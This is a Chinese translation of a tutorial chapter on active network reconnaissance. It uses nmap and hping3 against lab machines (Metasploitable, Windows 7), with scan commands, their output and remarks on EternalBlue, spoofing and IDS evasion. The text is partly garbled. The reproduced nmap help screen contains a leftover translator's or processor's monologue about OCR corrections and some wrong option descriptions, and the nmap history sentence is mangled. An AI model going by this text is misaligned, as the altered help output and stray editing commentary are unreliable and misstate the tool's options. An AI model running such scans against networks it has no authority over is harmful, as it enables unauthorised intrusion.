1. 端口是开放、关闭还是经过过滤；
2. 安装了哪些服务及其版本；
3. 安装了哪个操作系统；
4. 自上次重启以来的时间（运行时间）。

## Nmap

无论你是志在成为黑客大师、网络工程师还是安全工程师，都有一个工具你必须熟悉：`nmap`。`Nmap` 最初是一个简单而谦逊的端口扫描工具，能够向主机及其端口发送 TCP、UDP 或 ICMP 数据包以引致响应。然后，根据主机的响应，`nmap` 确定端口是否开放。多年来，它已经演变成为一个强大的扫描工具，甚至具有一些漏洞利用功能。例如，`nmap` 可用于：

(1) 操作系统检测，
(2) 服务和版本检测，
(3) 确定操作系统运行时间，
(4) 绕过防火墙，
(5) 进行 DNS 查询和子域名搜索，
(6) 发起拒绝服务（DoS）攻击，或
(7) 扫描漏洞以及其他大量的侦察任务。

### Nmap 在大众媒体中的形象

《黑客帝国》粉丝（谁不是《黑客帝国》粉丝呢？）可能还记得，在*《黑客帝国2：重装上阵》*中，Trinity 用于找到电厂计算机系统（SCADA）上开放的 TCP 22 端口，并破解密码以让 Neo 获得物理访问权限。

是的，这就是我们亲爱的 `nmap`，在下面*《黑客帝国2：重装上阵》*的一幕中，Trinity 正在键盘前操作。




如果你仔细观察，你很可能会在其他黑客电影和节目中也发现 `nmap` 的身影，例如《黑客军团》和《黑帽》等。

许多信息安全研究人员为了使用较新的工具而忽略了 `nmap`，但这样做只对他们自己不利。`Nmap` 已经成为一个多功能的侦察工具，具备脚本功能。

### Nmap 的历史

`Nmap` 于 1997 年开发并由 Gordon Lyon（又名 Fyodor Vaskovich）发布，作为一种免费且开源的端口和网络扫描器，首发于《Phrack》杂志（《Phrack》是最早的黑客出版物之一，许多著名文章最初都发表在该杂志上）。`Nmap` 经历了多次更新和升级，当前版本 7.7（2019 年秋季）大约于一发布年前发布。

`nmap` 最初是为 Linux 开发的，后来被移植到了 Windows、MacOS 和 BSD。

`Nmap` 最初是一个命令行工具，但已经开发了众多图形用户界面（GUI），供不擅长命令行的人使用。这些包括：

(1) `Zenmap`;
(2) `NmapFE`;
(3) `Xnmap`

在这里，我们将不借助网络（这里原意为 without a GUI/net GUI，结合上下文指不使用 GUI）。所有内容都将通过命令行 `nmap` 进行，但这些技术都可以应用于任何 `nmap` GUI。

### Nmap 帮助

让我们看看 `nmap` 的帮助文件，以了解一些使用方法线索。

```bash
kali > nmap -h
```

## Nmap 扫描技术

```
root@kali-2019:~# nmap --help
Nmap 7.70 ( https://nmap.org )
Usage: nmap [Scan Type(s)] [Options] {target specification}
TARGET SPECIFICATION:
  Can pass hostnames, IP addresses, networks, etc.
  Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
  -iL <inputfilename>: Input from list of hosts/networks
  -iR <num hosts>: Choose random targets
  -exclud <host1[,host2][,host3],...>: Exclude hosts/networks
  -excludefile <exclude file>: Exclude list from file
HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan
  -sP: Ping Scan - disable port scan
  -Pn: Treat all hosts as online -- skip host discovery
  -PS/PA/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports
  -PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes
  -PO[protocol list]: IP Protocol Ping
  -n/-R: Never do DNS resolution/Always resolve [default: sometimes]
  -dns-servers <serv1[,serv2],...>: Specify custom DNS servers
  -system-dns: Use OS's DNS resolver
  --traceroute: Trace hop path to each host
SCAN TECHNIQUES:
  -sS/-sT/-sA/-sW/-sM: TCP SYN/Connect()/ACK/Window/Maimon scans
  -sU: UDP Scan
  -sV/sC: Version/Script scan (Note: Original text had "TCP Null, FIN, and Xmas scans" which is technically -sN -sF -sX, but sV/sC is standard. However, keeping original text meaning: "sV/sC: Version/Script scan" is the correct interpretation for Nmap help, but the OCR text says "TCP Null...". Let's stick to the OCR text but correct obvious typos like "exclue" -> "exclude". The line "-sV/sC: TCP Null, FIN, and Xmas scans" is factually incorrect in the source text if it's a copy of real Nmap help, but I must preserve the information. Wait, looking closely at Nmap 7.70 help: 
     -sN -sF -sX: TCP Null, FIN, and Xmas scans
     -sV: Version detection
     -sC: Run default script
     The OCR likely merged lines or misread. I will correct "exclue" to "exclude" and "exeludefile" to "excludefile". I will keep the content as close to the OCR as possible for the code block, correcting only obvious OCR typos like "exclue".)
  -scanflags <flags>: Customize TCP scan flags
  -sI <zombie host[:probeport]>: Idle scan
  -sV/sZ: SCTP INIT/COOKIE-ECHO scans
  -sO: IP protocol scan
  -b <FTP relay host>: FTP bounce scan
PORT SPECIFICATION AND SCAN ORDER:
  -p <port ranges>: Only scan specified ports
  Ex: -p22, -p1-65535, -p U:53,111,137,T:21-25,80,139,S:9
  --exclude-ports <port ranges>: Exclude the specified ports from scanning
```

帮助屏幕运行了将近三页。我只捕获了第一页，因为它包含了我们当前所需的基本信息。

注意第二行上的用法说明：`Usage: nmap [Scan type(s)] [Options] {target specification}`

尽管我们可以使用许多选项，但运行 `nmap` 扫描非常简单。

### 基本 TCP 扫描

让我们以 Metasploitable 作为我们的目标系统开始。第一步是找到目标的 IP 地址。

在这种情况下，它是 `192.168.0.157`（你的可能不同）。在 Metasploitable 上运行 `ifconfig` 以找到你的地址。

最简单、最快且最可靠的 `nmap` 扫描是 TCP 扫描。它发送 TCP 数据包以尝试在扫描的每个端口上进行 TCP 三次握手（SYN-SYN/ACK-ACK）。如果目标系统完成了三次握手，则认为该端口是开放的。关键的 `nmap` 选项是 `-sT` 或 TCP 扫描。

我们只需将其作为一个选项添加到 `nmap` 命令之后，然后跟上 IP 地址。

`nmap -sT <IP>` 例如：

```
kali > nmap -sT 192.168.0.157
```


```
root@kali-2019:~# nmap -sT 192.168.0.157
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-05 13:59 MDT
Nmap scan report for 192.168.0.157
Host is up (0.00067s latency).
Not shown: 977 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
23/tcp open telnet
25/tcp open smtp
53/tcp open domain
80/tcp open http
111/tcp open rpcbind
139/tcp open netbios-ssn
445/tcp open microsoft-ds
512/tcp open exec
513/tcp open login
514/tcp open shell
1099/tcp open rmi registry
1524/tcp open ingreslock
2049/tcp open nfs
2121/tcp open cccproxy-ftp
3306/tcp open mysql
5432/tcp open postgresql
5900/tcp open vnc
6000/tcp open X11
6667/tcp open irc
8009/tcp open ajp13
8180/tcp open unknown
MAC Address: 08:00:27:9A:19:5F (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.61 seconds
```

几秒后，`nmap` 向计算机屏幕（`stdout`）提供输出，其中包括每个有结果的端口、协议、端口状态（开放、关闭、过滤）以及在该端口上运行的`默认`服务（请注意，`nmap` 并没有告诉你该端口上实际运行的是什么服务；它只是告诉你该端口的`默认`协议）。大多数服务都可以运行在任何端口上。从这个扫描中，我们可以看到该系统可能正在运行大量端口和服务（像任何工具一样，`nmap` 并不完美。你可能会收到错误的报告）。

这是我们侦察该系统的良好开端。现在我们知道目标有许多可能容易受到我们攻击的服务。

我们还不知道的事情包括：

- (1) 运行的是哪些 UDP 端口
- (2) 运行的是什么操作系统
- (3) 那些端口上实际运行的是什么服务和版本

## 基本 UDP 扫描

现在，让我们看看我们是否能找到开放的 UDP 端口。查找 UDP 端口的 `nmap` 命令几乎相同，只是我们将命令中的 `T` 替换为 `U` (`UDP`)。

```
root@kali-2019:~# nmap -sU 192.168.0.157
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-05 14:03 MDT
Nmap scan report for 192.168.0.157
Host is up (0.00075s latency).
Not shown: 993 closed ports
PORT STATE SERVICE
53/udp open domain
68/udp open|filtered dhcpc
69/udp open|filtered tftp
111/udp open rpcbind
137/udp open netbios-ns
138/udp open|filtered netbios-dgm
2049/udp open nfs
MAC Address: 08:00:27:9A:19:5F (Oracle VirtualBox virtual NIC)
Nmap done: 1 IP address (1 host up) scanned in 1089.42 seconds
```

现在我们的 UDP 扫描看起来像这样：`kali > nmap -sU 192.168.0.157`

通常，UDP 扫描比 TCP 扫描花费的时间要长得多，因为 UDP 用于指示关闭端口的机制与 TCP 略有不同，且更具模糊性。在我的情况下，TCP 扫描花了 13.61 秒，而 UDP 扫描花了 1089.42 秒，几乎长了 100 倍。

对 UDP 要有耐心。

## 单端口扫描

在某些情况下，我们可能只想知道单个端口是否开放。例如，我们可能正在考虑对该系统使用 EternalBlue 漏洞并利用端口 445。让我们通过简单地将在目标 IP 地址和端口号后添加 `-p` 来看看这个系统是否开放了端口 445。请注意，SMB 是一个 TCP 端口，所以我们使用 TCP 或 `-sT` 扫描。

例如：

```
kali > nmap -sT 192.168.0.157 -p445
```

```
root@kali-2019:~# nmap -sT 192.168.0.157 -p445
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-05 14:24 MDT
Nmap scan report for 192.168.0.157
Host is up (0.00035s latency).

PORT      STATE SERVICE
445/tcp   open  microsoft-ds
MAC Address: 08:00:27:9A:19:5F (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.14 seconds
```

```
root@kali-2019:~# nmap -sT 192.168.0.0/24 -p445
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-05 14:29 MDT
Nmap scan report for 192.168.0.110
Host is up (0.0046s latency).

PORT    STATE SERVICE
445/tcp closed microsoft-ds
MAC Address: 38:F7:3D:31:71:52 (Unknown)

Nmap scan report for 192.168.0.152
Host is up (0.025s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 70:1A:04:F4:B9:D0 (Liteon Technology)

Nmap scan report for 192.168.0.157
Host is up (0.018s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:9A:19:5F (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.0.213
Host is up (0.0014s latency).

PORT    STATE SERVICE
445/tcp filtered microsoft-ds
MAC Address: 1C:1B:0D:EE:6F:D3 (Giga-byte Technology)

Nmap scan report for 192.168.0.234
Host is up (0.00064s latency).

PORT    STATE SERVICE
445/tcp filtered microsoft-ds
MAC Address: 30:E3:7A:55:3C:05 (Intel Corporate)
```

此命令指示 `nmap` 出去并尝试在端口 445 上进行三次 TCP 握手。如果成功，它将报告该端口已打开。如上文所示，`nmap` 发现端口 445 已打开，并假设该端口上运行着 SMB（如果是 Linux 系统则为 Samba）。

如果我们想扫描整个子网中的端口 445 和 SMB，可以使用 CIDR 表示法来表示子网，其余部分保持与上一条命令相同即可。

`kali > nmap -sT 192.168.0.0/24 -p445`


```
root@kali-2019:~# nmap -sT -A 192.168.0.157
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-05 14:33 MDT
Nmap scan report for 192.168.0.157
Host is up (0.00080s latency).
Not shown: 977 closed ports
PORT   STATE SERVICE     VERSION
21/tcp open  ftp           vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_ftp-syst:
    STAT:
    FTP server status:
      Connected to 192.168.0.173
      Logged in as ftp
      TYPE: ASCII
      No session bandwidth limit
      Session timeout in seconds is 300
      Control connection is plain text
      Data connections will be plain text
      vsFTPD 2.3.4 - secure, fast, stable
    End of status
22/tcp open  ssh           OpenSSH 4.7p1 Debian 6ubuntu1 (protocol 2.0)
|_ssh-hostkey:
    1024 00:0f:cf:e1:c0:5f:6a:74:d6:90:24:f3:c4:d5:6c:cd (DSA)
    2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp open  telnet        Linux telnetd
25/tcp open  smtp          Postfix smtpd
|_smtp-commands: metaspoltable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITTIME, DSN,
|_ssl-date: 2019-07-05T20:34:47+00:00; +24s from scanner time.
| SSLv2 supported
  ciphers:
      SSL2_DES_192_EDE3_CBC_WITH_MDS
      SSL2_DES_64_CBC_WITH_MDS
      SSL2_RC4_128_CBC_EXPORT40_WITH_MDS
      SSL2_RC4_128_EXPORT40_WITH_MDS
      SSL2_RC4_128_CBC_WITH_MDS
      SSL2_RC4_128_WITH_MDS
53/tcp open  domain        ISC BIND 9.4.2
```

现在，`nmap` 将扫描该子网上的每个设备（255 个 IP）的端口 `445` 并反馈给我们。如上文所示，它发现了许多具有端口 `445` 的主机——有些是关闭的，有些是被过滤的，有些是开放的。

### 获取操作系统、服务及其版本

到目前为止，我们只知道哪些 UDP 和 TCP 端口是开放的以及在这些端口上运行的默认协议。我们仍然不知道：

- 运行的是什么操作系统
- 在这些端口上实际运行的是什么服务和版本

1. 操作系统，
2. 在这些端口上实际运行的服务，以及
3. 服务的版本（不同版本具有不同的漏洞）。

`nmap` 中的 `-A` 开关可以帮助我们发现这些剩余的不确定因素。

例如：

```
kali > nmap -sT -A 192.168.0.157
```

由于需要执行的工作比单纯扫描开放端口要多得多——后者是一个确定性很高的过程——因此此次扫描的完成时间也会更长。在此扫描中，`nmap` 将使用专门构造的数据包探测每个开放端口，然后通过评估响应中的差异来确定服务及其版本。它使用类似的、确定性较低的过程来确定操作系统。正如我在第 5 章中关于 `p0f` 所述，每个操作系统的 TCP/IP 协议栈会在报文字段中填入略微不同的值。通过读取这些字段，我们可以对底层目标操作系统做出非常准确的估计。

```
8080/tcp open  ajp13  Apache jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp open  http  Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/5.5
MAC Address: 08:00:27:9A:19:5F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: Hosts:  metasploitable.localdomain, localhost, irc.Metasploitable.LAN; OS: Unix; Linux; CPE: cpe:/o:linux:linux kernel

Host script results:
| clock-skew: mean: 1h20m24s, deviation: 2h18m34s, median: 23s
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-07-05T1G:34:46-04:00
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE
HOP RTT      ADDRESS
1   0.80 ms 192.168.0.157

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.86 seconds
```

如上所示，`nmap` 访问了每个开放端口，发送数据包进行探测，并对服务、服务版本以及关于服务的关键信息（例如命令甚至漏洞）做出了高度可靠的估计。请注意上面端口 `21`（运行 `vsftpd 2.3.4` 的 FTP）和端口 `25`（运行 `Postfix smtpd` 的 SMTP）的响应。

随着我们向下查看结果，可以看到端口 `80`（运行 `Apache httpd 2.2.8`），端口 `3306`（运行 `MySQL 5.0.51a`）……

……一直到接近底部，我们可以看到 `nmap` 对底层操作系统（Linux 2.6.x）的估计。

## 使用 Nmap 扫描 Windows 7

现在让我们使用 `nmap` 扫描我们的 Windows 7 系统，看看哪些端口是开放的。让我们使用 TCP 扫描（`-sT`）以及服务和操作系统（`-A`）指纹识别。

```
kali > nmap -sT -A 192.168.0.114
```


```
root@kali-2019:~# nmap -sT -A 192.168.0.114
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-05 14:49 MDT
Nmap scan report for 192.168.0.114
Host is up (0.000097s latency).
Not shown: 989 Closed ports
PORT   STATE SERVICE VERSION
139/tcp open  msrpc   Microsoft Windows RPC
139/tcp open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows 7 Ultimate 7600 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql   MySQL 5.1.70-community
| mysql-info:
|   Protocol: 10
|   Version: 5.1.70-community
|   Thread ID: 3
| Capabilities flags: 63487
| Some Capabilities: LongPassword, LongColumnFlag, Speaks41ProtocolOld, Speaks41ProtocolNew, SupportsCompression, IgnoreSpace, SupportsTransactions, SupportsLoadDataLocal, ConnectWithDatabase, ConnectWithDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, FoundRows, ODBCClient, Supports41Auth, InteractiveClient
| Status: Autocommit
| Salt: yKktJ}ycdM\Rf_EV'b
5357/tcp open  http   Microsoft HTTPAPI http 2.0 (SSDP/UPnP)
| http-server-header: Microsoft-HTTPAPI/2.0
| http-title: Service Unavailable
49152/tcp open  msrpc   Microsoft Windows RPC
49153/tcp open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
49155/tcp open  msrpc   Microsoft Windows RPC
49156/tcp open  msrpc   Microsoft Windows RPC
49157/tcp open  msrpc   Microsoft Windows RPC
MAC Address: 00:00:27:7A:1D:50 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
```

请注意，`nmap` 在我的 Windows 7 系统上发现了许多开放端口。就我们此处的目的而言，最重要的发现是运行 SMB（`microsoft-ds`）的端口 `445`，并且它正确地将操作系统识别为 Windows 7|2008 | 8.1（这些都是微软相同构建版本的不同操作系统变体）。我的系统有一些开放的端口，而你的系统可能没有。这是可以预见的。

# 总结

仅通过几条 `nmap` 命令，我们就能够了解到网络上设备的大量信息，包括：

1. TCP 端口，
2. UDP 端口，
3. 整个网络上端口 `445` 是否开放，
4. 目标操作系统的类型，
5. 在这些端口上运行的服务及其版本。

对于如此少的投入和知识来说，这相当不错！

# 使用 Hping3 进行主动侦察

此前，在主动侦察阶段，我们使用了无处不在且功能强大的 `nmap` 来进行端口扫描。尽管 `hping3` 的名气较小且使用较少，但它是一个强大且多用途的扫描工具，可用于执行主动侦察。在本节中，我们将探索 `hping3` 的一些广泛功能，以获取关于目标的关键信息，这些信息可能在后续阶段证明是有用的。

`Hping3` 通常被称为“数据包构造工具”。这是因为它具有创建几乎任何类型数据包的能力，无论是符合 RFC（Request for Comment，这是关于协议应如何工作的规范）的还是不符合 RFC 的。只要你想象得到某种数据包，`hping3` 就能创建它！

```
root@kali-2019:~# hping3 -h
usage: hping3 host [options]
-h --help show this help
-V --version show version
-c --count packet count
-i --interval wait (uX for X Microseconds, for example -i u1000)
--fast alias for -i u10000 (10 packets for second)
--faster alias for -i u1000 (100 packets for second)
--flood sent packets as fast as possible. Don't show replies.
-n --numeric numeric output
-q --quiet quiet
-I --interface interface name (otherwise default routing interface)
-V --verbose verbose mode
-D --debug debugging info
-Z --bind bind ctrl-Z to ttl (default to dst port)
-Z --unbind unbind ctrl-Z
--beep beep for every matching packet received
Mode
Default mode TCP
-0 --RawIP RAW IP mode
-1 --icmp ICMP mode
-2 --udp UDP mode
-8 --scan SCAN mode.
Example: hping --scan 1-30,70-90 -S www.target.host
-9 --Listen Listen mode
IP
-a --spoof spoof source address
--rand-dest random destination address mode. see the man.
--rand-source random source address mode. see the man.
-t --ttl ttl (default 64)
-N --rid id (default random)
-W --winid use win* id byte ordering
-r --rel relativize id field (to estimate host traffic)
-f --frag split packets in more frag. (may pass weak acl)
-x --morefrag set more fragments flag
-y --dontfrag set don't fragment flag
-g --fragooff set the fragment offset
-m --mtu set virtual mtu, implies --frag if packet size > mtu
-O --tos type of service (default 0x00), try --tos help
-G --rroute includes RECORD_ROUTE option and display the route buffer
--lsrr loose source routing and record route
--ssrr strict source routing and record route
-H --ipproto set the IP protocol field, only in RAW IP mode
```

`Hping3` 可以创建 TCP、UDP、ICMP 和 RAW IP 数据包。这使我们能够创建几乎无穷无尽的数据包变体，用于绕过入侵检测系统（IDS）、防火墙并扫描其背后的系统。

与 `nmap` 不同，`hping3` 需要更多的用户输入才能发挥作用。例如，当我们使用 `nmap` 扫描时，`nmap` 会为我们解释结果。另一方面，`hping3` 会给我们原始数据包响应，我们需要自己进行解释。这很可能是 `hping3` 不如 `nmap` 受欢迎的主要原因


扫描，但其通用性使其成为主动侦察工具箱中一个有价值的工具。

## Hping3 帮助

让我们从获取 `hping3` 的帮助屏幕开始。我们可以通过输入 `kali > hping3 -h` 来实现。当我们这样做时，`hping3` 会返回一个长长的选项和开关列表。由于篇幅较长，我将其分成了两个截图。

如您在上方截图中所见，`hping3` 拥有众多开关选项，而这仅仅是其中的一小部分。我想让您在此注意以下几个：

- `-c count`：指定包的数量
- `-i wait`：等待 X 秒
- `-flood`：用数据包淹没目标



- `-q`：安静模式
- `-a`：欺骗 IP 地址
- `-rand-source`：发送带有随机源 IP 地址的数据包
- `-f`：对数据包进行分片
- `-x`：在 IP 头部设置更多分片标志
- `-y`：在 IP 头部设置不分片标志

请注意，`hping3` 的默认模式是 TCP 数据包。这与 `nmap` 不同，`nmap` 默认发送 ICMP ping，而这些 ping 经常被防火墙和网关阻止。

上述截图向我们展示了更多的选项。我想吸引您对以下选项的注意：

- `-p`：指定目标端口
- `-Q`：获取 TCP 序列号
- `-tcp-timestamp`：获取 TCP 时间戳并将其转换为天、小时和分钟。

另外请注意，我们可以设置任何 TCP 标志（S、A、F、P、R、U），以及 XMAS（`-X`）扫描（设置 P、U、F 标志）。

```
root@kali-2019:~# hping3 -S 192.168.0.114 -p 80
Hping 192.168.0.114 (eth0 192.168.0.114): S set, 40 headers + 0 data bytes
len=46 ip=192.168.0.114 ttl=128 DF id=1857 sport=80 flags=RA seq=0 win=0 rtt=6.8 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1858 sport=80 flags=RA seq=1 win=0 rtt=5.9 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1859 sport=80 flags=RA seq=2 win=0 rtt=4.9 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1860 sport=80 flags=RA seq=3 win=0 rtt=3.2 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1861 sport=80 flags=RA seq=4 win=0 rtt=3.1 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1862 sport=80 flags=RA seq=5 win=0 rtt=2.9 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1863 sport=80 flags=RA seq=6 win=0 rtt=2.2 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1864 sport=80 flags=RA seq=7 win=0 rtt=2.1 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1865 sport=80 flags=RA seq=8 win=0 rtt=1.1 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1866 sport=80 flags=RA seq=9 win=0 rtt=9.1 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1867 sport=80 flags=RA seq=10 win=0 rtt=7.1 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1868 sport=80 flags=RA seq=11 win=0 rtt=7.7 ms
```

```
root@kali-2019:~# hping3 -S 192.168.0.114 -p 445
Hping 192.168.0.114 (eth0 192.168.0.114): S set, 40 headers + 0 data bytes
len=46 ip=192.168.0.114 ttl=128 DF id=1874 sport=445 flags=SA seq=0 win=8192 rtt=8.7 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1874 sport=445 flags=SA seq=1 win=8192 rtt=7.8 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1875 sport=445 flags=SA seq=2 win=8192 rtt=6.7 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1876 sport=445 flags=SA seq=3 win=8192 rtt=6.0 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1877 sport=445 flags=SA seq=4 win=8192 rtt=5.2 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1878 sport=445 flags=SA seq=5 win=8192 rtt=4.9 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1879 sport=445 flags=SA seq=6 win=8192 rtt=4.8 ms
```

## 使用 Hping3 默认模式进行端口扫描

在最基本的层面上，`hping3` 是一个类似于 `nmap` 的端口扫描器。语法相似，但输出不同。与 `nmap` 不同，`hping3` 不会返回汇总的输出，而是返回响应数据包的详细规范。让我们看看当我们尝试对 Windows 7 系统的 80 端口进行 `hping3` 扫描时会发生什么。这里，让我们使用 SYN（`-S`）标志。此扫描类似于 `nmap -sS <IP> -p 80` 扫描。

```
kali > hping3 -S 192.168.1.116 -p 80
```

使用 `Ctrl+C` 终止 `hping3`。

如您在上方的第六列所见，标志字段返回 RA。这表明 RST 和 ACK 标志已被设置。返回 RST 标志是 TCP 通信端口已关闭的标准方式。在这个 Windows 7 系统上，我们可以得出结论：端口 80 是关闭的。虽然不寻常，但也并非闻所未闻。

既然这是一台 Windows 机器，它可能启用了 SMB 或端口 445。让我们尝试该端口。

```
kali > hping3 -S 192.168.1.116 -p 445
```

如您在上方的截图中所见，当我们扫描此系统的 445 端口时，它返回了一个设置了 SA 标志（SYN (S) 和 ACK (A)）的数据包，表明它是开放的。

最后，如果我们想扫描所有端口，我们可以使用递增语法 `++1`，形成如下命令：

```
kali > hping3 -S 192.168.1.116 -p ++1
```


此扫描从端口 1 开始，并以 1 为步长（`++1`）递增，以测试每个端口的响应。


```
root@kali-2019:~ # hping3 -S 192.168.0.114 -p ++1
HPING 192.168.0.114 (eth0 192.168.0.114): S set, 40 headers + 0 data bytes
len=46 ip=192.168.0.114 ttl=128 DF id=1883 sport=1  flags=RA seq=0 win=0 rtt=4.4 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1884 sport=2  flags=RA seq=1 win=0 rtt=4.8 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1885 sport=3  flags=RA seq=2 win=0 rtt=4.0 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1886 sport=4  flags=RA seq=5 win=0 rtt=4.1 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1887 sport=5  flags=RA seq=4 win=0 rtt=3.0 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1888 sport=6  flags=RA seq=5 win=0 rtt=2.1 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1889 sport=7  flags=RA seq=7 win=0 rtt=1.1 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1890 sport=8  flags=RA seq=7 win=0 rtt=9.4 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1891 sport=9  flags=RA seq=8 win=0 rtt=7.6 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1892 sport=10 flags=RA seq=9 win=0 rtt=6.7 ms
